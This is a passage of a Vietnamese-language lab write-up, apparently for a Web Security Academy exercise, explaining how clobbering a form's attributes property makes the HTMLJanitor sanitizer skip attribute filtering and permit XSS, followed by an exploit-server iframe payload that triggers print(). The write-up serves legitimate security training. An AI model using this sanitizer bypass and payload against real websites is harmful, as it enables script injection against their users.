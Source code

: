 Hơn nữa, ta có `0<node.attributes.length === false` → vòng loop để check các attributes của `HTMLJanitor` sẽ bị skip hoàn toàn:

![Untitled](wu_media/Untitled%2023.png)

→ các attribute của node `form` sẽ không bị filter → ta dễ dàng thực hiện XSS

![Untitled](wu_media/Untitled%2024.png)

Vào Exploit server, tạo `iframe` và set onload delay nửa giây để comment được load hết trước khi redirect sang `#x`  để gọi hàm print()

```html
<iframe src="https://0a5a001a03f777adc02531fb003300ef.web-security-academy.net/post?postId=6"
    onload=" setTimeout(() => {this.src = 'https://0a5a001a03f777adc02531fb003300ef.web-security-academy.net/post?postId=6#x';}, 1000);">
</iframe>
```
